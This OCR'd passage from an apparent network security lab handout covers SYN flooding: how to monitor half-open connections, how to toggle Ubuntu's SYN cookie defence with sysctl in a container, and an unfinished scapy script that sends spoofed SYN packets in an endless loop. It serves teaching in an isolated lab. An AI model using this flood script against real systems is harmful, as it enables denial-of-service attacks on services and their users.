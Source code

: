 We can use command"netstat -nat"to check the usage of the queue, i.e., the number of half-
opened connection associated with a listening port. The state for such connections isSYN-RECV. If the
3-way handshake is finished, the state of the connections will beESTABLISHED.

SYN Cookie Countermeasure: By default, Ubuntu’s SYN flooding countermeasure is turned on. This
mechanism is called SYN cookie. It will kick in if the machine detects that it is under the SYN flood-
ing attack. In our victim server container, we have already turned it off (see thesysctlsentry in the
docker-compose.ymlfile). We can use the followingsysctlcommand to turn it on and off:

# sysctl -a | grep syncookies (Display the SYN cookie flag)
# sysctl -w net.ipv4.tcp_syncookies=0 (turn off SYN cookie)
# sysctl -w net.ipv4.tcp_syncookies=1 (turn on SYN cookie)

To be able to usesysctlto change the system variables inside a container, the container needs to be
configured with the"privileged: true"entry (which is the case for our victim server). Without
this setting, if we run the above command, we will see the following error message. The container is not
given the privilege to make the change.

# sysctl -w net.ipv4.tcp_syncookies=
sysctl: setting key "net.ipv4.tcp_syncookies": Read-only file system


### 3.1 Task 1.1: Launching the Attack Using Python

We provide a Python program calledsynflood.py, but we have intentionally left out some essential data
in the code. This code sends out spoofed TCP SYN packets, with randomly generated source IP address,
source port, and sequence number. Students should finish the code and then use it to launch the attack on
the target machine:

#!/bin/env python

from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip = IP(dst="*.*.*.*")
tcp = TCP(dport=**, flags=’S’)
pkt = ip/tcp

while True:
pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
pkt[TCP].sport = getrandbits(16) # source port
pkt[TCP].seq = getrandbits(32) # sequence number
send(pkt, verbose = 0)
